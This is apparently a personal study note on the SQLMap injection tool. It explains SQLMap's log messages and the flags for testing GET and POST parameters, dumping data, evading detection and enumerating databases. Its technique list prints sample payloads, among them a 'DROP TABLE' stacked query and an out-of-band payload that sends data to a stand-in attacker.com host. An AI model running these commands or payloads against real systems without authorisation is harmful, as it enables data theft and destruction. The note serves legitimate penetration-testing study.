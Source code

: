 ```table-of-contents
title: ## Table of Contents
style: nestedList # TOC style (nestedList|nestedOrderedList|inlineFirstLevel)
minLevel: 0 # Include headings from the specified level
maxLevel: 3 # Include headings up to the specified level
includeLinks: true # Make headings clickable
debugInConsole: false # Print debug info in Obsidian console
```

## Summary
[SQLMap](https://github.com/sqlmapproject/sqlmap) is a tool for automating the process of detecting and exploiting SQLi vulnerabilities. It supports a plethora of databases types and the following techniques:
- `B` : Boolean-based blind - `AND 1=1`
- `E` : Error-based - `AND GTID_SUBSET(@@version,0)`
- `U` : Union query-based - `UNION ALL SELECT 1,@@version,3`
- `S` : Stacked queries - `; DROP TABLE users`
- `T` : Time-based blind - `AND 1=IF(2>1,SLEEP(5),0)`
- `Q` : Inline queries - `(SELECT @@version)`
- ` ` : Out-of-band injection - `LOAD_FILE(CONCAT('\\\\',@@version,'.attacker.com\\README.txt'))

## Installation
```
sudo apt install sqlmap

git clone --depth 1 https://github.com/sqlmapproject/sqlmap.git sqlmap-dev
```

## Documentation
**Cheatsheet:** 
**Website:** https://github.com/sqlmapproject/sqlmap

## Important log messages
- `Target URL content is stable` : means that the responses are fairly consistent meaning its easier to spot the effects of SQLi attempts
- `GET parameter 'id' appears to be dynamic` : `dynamic` means that changes made to its value, change the output in the response (opposite is `static`)
- `heuristic (basic) test shows that GET parameter 'id' might be injectable (possible DBMS: 'MySQL')` : means that the get parameter needs to be tested further and it has attempted to guess the DBMS provider based on output.
- `heuristic (XSS) test shows that GET parameter 'id' might be vulnerable to cross-site scripting (XSS) attacks` : SQLMap also quickly runs XSS tests. Its nice to have when running against large websites, *two birds with one stone*.
- `reflective value(s) found and filtering out` : a warning to say that some parts of the payload can be seen in the output so they need to be filtered out before comparing the original page content (*SQLMap does this filtering automatically*).
- `GET parameter 'id' appears to be 'AND boolean-based blind - WHERE or HAVING clause' injectable (with --string="luther")` : This means that SQLMap believes this parameter is a boolean-based blind injection. The `with --string="luther"` is important as it shows that its using this consistent value as its source of TRUE and FALSE responses; this is good as we don't need to use advanced internal mechanisms which could be more susceptible to false-positives.
- `time-based comparison requires a larger statistical model, please wait...(done)` : uses a statistical model for the recognition of regular and (deliberately) delayed target responses. To use this model, SQLMap must collect a large number of responses.
- `automatically extending ranges for UNION query injection technique tests as there is at least on other (potential) technique found` : it takes a large number of requests needed to be able to recognise usable UNION payloads, compared to other techniques. It is capped by default but this cap it extended if there is a good chance of vulnerability.
- `Get parameter 'id' is vulnerable. Do you want to keep testing the others (if any)?` : if we are doing a pentest then we want to test everything, not just find a single vulnerability.

## Usage
```bash
sqlmap -h # Basic options (most common)
sqlmap -hh # Advanced options
```
> A useful trick is to take a HTTP request from a browser, `copy as cURL` and then paste that directly into `sqlmap` as it takes the same format.
> It can also use a request file using `-r [filename]` so we can save requests as files from [[Burp Suite]] and then use them with `sqlmap`.
### GET Parameters
```bash
sqlmap -u "https://example.com/index.php?id=1" --batch
```
> `--batch` skips all user-input, automatically choosing based on the default options

### POST Parameters
```bash
sqlmap -u "https://example.com/login.php" --data 'username=test&password=*'
```
> The `*` indicates that tests should only use the marked parameter, otherwise they will try all
> We can also specify a particular parameter with `-p username`

### Extracting Data
The `--dump` flag will attempt to exfiltrate content out from the specified data after an SQLi mechanism has been discovered

### Avoiding Detection
The `--random-agent` will change the `user-agent` header to use a regular browser value (*it picks from an internal database at random*). The `--mobile` simulates a mobile browser.

### Display Errors
`--parse-errors` will attempt to parse DBMS errors and display them as part of the logging.

### Store the traffic
If we want to save a copy of the traffic we can use `-t`. This can be useful for debugging as it will show us all requests made.

### Verbose
Verbose has 6 levels depending on how much you wish to log at each level.

### Using a proxy
If we need to redirect traffic through a proxy (eg. [[Burp Suite]]) then we can use `--proxy`

### Specifying custom Prefix / Suffix
```bash
sqlmap -u "..." --prefix="')" --suffix="-- -"
```

### Level / Risk
An `sqlmap` payload contains two things, the **vector** (*the actual SQL code being injected*) eg. `UNION ALL SELECT 1,2,VERSION()` and the **boundaries** (*the injection mechanism*) eg. prefix: `'))` suffix: `-- -`.
`--level` is a value (1-5, default 1) that extends both the vectors and boundaries being tested, the lower the expected chance of success, the higher the required level to test it.
`--risk` is a value (1-3, default 1) that extends the vectors set based on their risk of causing problems (eg. data loss and DoS).

### Success Criteria
Sometimes we need to specify manually the success criteria:
- `--code` can be used to specify which status code is a successful injection
- `--titles` can be used to base the comparison on the webpage `<title>` field
- `--strings` can be used to fixate detection on the occurrence of a string in the response
- `--text-only` strips out all the HTML tags for hidden content and only does matches against the visible (textual) content on the page

### Specifying a technique
`--technique` you can specify the SQLi technique you want to use.
![[#Summary]]


### Union SQLi Tuning
There are some extra parameters that can be specified for Union SQLi:
- `--union-cols` can be used to specify which number of columns to use (*this can be a range*)
- `--union-char` can be used to specify an alternative value (instead of `NULL` or a random integer) to use in the columns
- `--union-from` can be used to specify a FROM table

### Focusing on specific content
`-D` specifies the database to enumerate
`-T` specifies the table to enumerate
`-C` specifies the colum(s) to enumerate